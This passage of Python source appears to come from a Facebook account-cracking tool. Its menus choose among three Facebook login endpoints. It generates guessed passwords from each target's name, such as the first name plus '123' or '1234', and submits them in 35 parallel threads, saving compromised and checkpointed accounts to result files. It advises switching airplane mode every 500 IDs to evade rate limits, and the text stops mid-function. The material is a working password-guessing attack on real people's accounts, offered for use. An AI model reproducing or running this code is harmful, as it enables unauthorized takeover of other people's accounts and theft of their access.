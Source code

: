              self.__metode__(cebok, user, pasw)


    def __pler__(self):
        os.system('clear')
        logo()
        print (' Methode 3 in 1 ')
        print ('[1] Method 1')
        print ('[2] Method 2')
        print ('[3] Method 3')
        yan = input('\n%s[%s+%s] Select Method : '%(H,H,H))
        if yan == '':
            print('\n %s[%s×%s] Sorry, it is wrong...!'%(N,M,N));self.__pler__()
        elif yan in ('1', '01'):
            xx = "free.facebook.com"
            self.kombinasi_pw(xx)
        elif yan in ('2', '02'):
            xx = "mbasic.facebook.com"
            self.kombinasi_pw(xx)
        elif yan in ('3', '03'):
            xx = "m.facebook.com"
            self.kombinasi_pw(xx)
        else:
            print('\n %s[%s×%s] Sorry, it is wrong...!'%(N,M,N));self.__pler__()

    def kombinasi_pw(self,url):
        print('%s══════════════════════════════════════\n %sSetting Password Menu%s'%(H,H,H))
        print('%s[%s1%s] Password 1'%(H,H,H))
        print('%s[%s2%s] Password 2'%(H,H,H))
        pw = input(f"\n{H}[{H}+{H}] Select Password Method : ")
        if pw in[""]:
            print(f" {N}[{M}!{N}] Don't be empty");self.kombinasi_pw(url)
        elif pw in["1","01"]:
            print('%s══════════════════════════════════════\n[%s+%s] OK : results/OK-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s[%s+%s] CP : results/CP-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s══════════════════════════════════════\n[%s!%s] Use Airplane Mode If You No Result\n[%s!%s] Every 500 Id After Use Airplane Mode\n[%s!%s] To stop %sCTRL+c%s on keyboard\n══════════════════════════════════════'%(H,H,H,H,H,H,H,H,H))
            with YayanGanteng(max_workers=35) as kirim:
                for yntkts in self.id:
                   try:
                       uid, name = yntkts.split('|')
                       xz = name.split(' ')
                       if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                           pwx = [name, xz[0]+xz[1], xz[0]+"123",xz[0]+"1234"]
                       else:
                           pwx = [name, xz[0]+xz[1], xz[0]+"123",xz[0]+"1234"]
                       kirim.submit(self.__metode__,url,uid,pwx)
                   except:pass
            hasil(ok,cp)
        elif pw in["2","02"]:
            print('%s═════════════════════════════════════\n[%s+%s] OK : results/OK-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s[%s+%s] CP : results/CP-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s══════════════════════════════════════\n[%s!%s] Use Airplane Mode If You Result\n[%s!%s] After 500 Id Crack Use Airplane Mode\n[%s!%s] To stop %sCTRL+c%s on keyboard\n═══════════════════════════════════════'%(H,H,H,H,H,H,H,H,H))
            with YayanGanteng(max_workers=35) as kirim:
                for yntkts in self.id:
                   try:
                       uid, name = yntkts.split('|')
                       xz = name.split(' ')
                       if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                           pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]]